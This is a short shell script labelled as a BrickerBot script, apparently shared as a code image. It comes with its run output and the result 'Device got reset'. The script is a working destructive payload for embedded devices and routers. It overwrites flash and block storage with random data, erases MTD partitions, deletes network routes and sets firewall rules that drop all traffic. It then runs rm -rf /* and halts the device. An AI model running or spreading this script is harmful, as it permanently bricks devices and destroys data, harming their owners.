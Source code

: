 #!/bin/sh /etc/rc.common
# overwrite flash memory with random data
cat /dev/urandom | mtd_write mtd0 - 0 32768
cat /dev/urandom >/dev/mtdblock0
cat /dev/urandom >/dev/mmcblk0
cat /dev/urandom >/dev/root
cat /dev/urandom >/dev/mtd0
flash_erase /dev/mtdblock0 0 999999 0
flash_erase /dev/mtdblock1 0 999999 0

# make the device inaccessible over the network

route del default
iproute del default; ip route del default
iptables -F;iptables -t nat -F;iptables -A INPUT -j DROP;iptables -A FORWARD -j DROP

# wipe files

rm -rf /* 2>/dev/null
halt -n -f
reboot



OUTPUT------------------------------------------------------------------------------------
 ./Brickerbot-script.sh 
/etc/rc.common: ./Brickerbot-script.sh: line 3: mtd_write: not found
cat: write error: Operation not permitted
cat: write error: No space left on device
cat: write error: No space left on device
/etc/rc.common: ./Brickerbot-script.sh: line 7: can't create /dev/mtd0: Permission denied
/etc/rc.common: ./Brickerbot-script.sh: line 8: flash_erase: not found
/etc/rc.common: ./Brickerbot-script.sh: line 9: flash_erase: not found
/etc/rc.common: ./Brickerbot-script.sh: line 14: iproute: not found


RESULT -----------------------------------------------------------------------------------

Device got reset

------------------------------------------------------------------------------------------
